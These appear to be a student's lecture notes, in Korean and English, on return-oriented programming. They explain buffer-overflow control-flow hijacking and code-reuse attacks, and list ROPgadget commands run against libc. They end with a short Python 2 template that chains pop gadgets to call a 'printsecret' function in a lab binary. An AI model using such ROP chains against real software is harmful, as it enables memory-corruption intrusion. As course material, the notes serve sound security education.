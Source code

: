 ![[L13 Return-oriented Programming.pdf#page=3&selection=6,15,6,41]]
어떻게든지 하이재킹 한다

buffer overflow = overwrite -> CPU execute the code
Hijack the control flow
Global Variables/Local Variables
Don't hijack the control flow

Code Injectio attack
	Shell code supplied by hacker
	Machine code = instructions

Code reuse attack
Return to libc attack

address space 에 있어야됨

return to some place => NOT oversrite, re use

Turing complete 하게

Innocent flesh = Random bytes
Code sequence
	Gadgets
		Some bytes > Not limited by compiler

Generates random byte -> Interpreted as a valid instructions

ROP gadget
![[L13 Return-oriented Programming.pdf#page=13&selection=3,0,4,50]]
NOjop - NO JUMP ORIENTED
Binary to get gadgets in the binary
offset - BaseAddress

![[L13 Return-oriented Programming.pdf#page=27&selection=5,0,11,60]]
40 bytes


1. python3 ROPgadget/ROPgadget.py --binary /lib/x86_64-linux-gnu/libc.so.6
2. python3 ROPgadget/ROPgadget.py --binary /lib/x86_64-linux-gnu/libc.so.6 --nojop
3. python3 ROPgadget/ROPgadget.py --binary /lib/x86_64-linux-gnu/libc.so.6 --nojop | grep "pop rdi"
	1. 0x0000000000023b6a : pop rdi ; ret
4. ldd ./bufferoverflow_overflowret3_64
5. touch /tmp/e.sh
6. ![[L13 Return-oriented Programming.pdf#page=27&selection=5,0,12,7]]![[L13 Return-oriented Programming.pdf#page=27&selection=2,0,12,7]]![[L13 Return-oriented Programming.pdf#page=27&selection=9,38,9,46]]

1. Address
	1. F1
		1. 0000000000401166
	2. F2
		1. 00000000004011ae
	3. F3
		1. 00000000004011f9
	4. F4
		1. 000000000040123b

```

```

```
#!/usr/bin/env python2  
# python template to generate ROP exploit

from struct import pack

p = ''  
p += "A" * 14  
p += pack('<Q', 0x00007ffff7decb6a) # pop rdi ; ret  
p += pack('<Q', 0x0000000012345678) #  
p += pack('<Q', 0x00007ffff7def01f) # pop rsi ; ret  
p += pack('<Q', 0x00000000deadbeef) #  
p += pack('<Q', 0x000000000040127a) # Address of printsecret

print p
```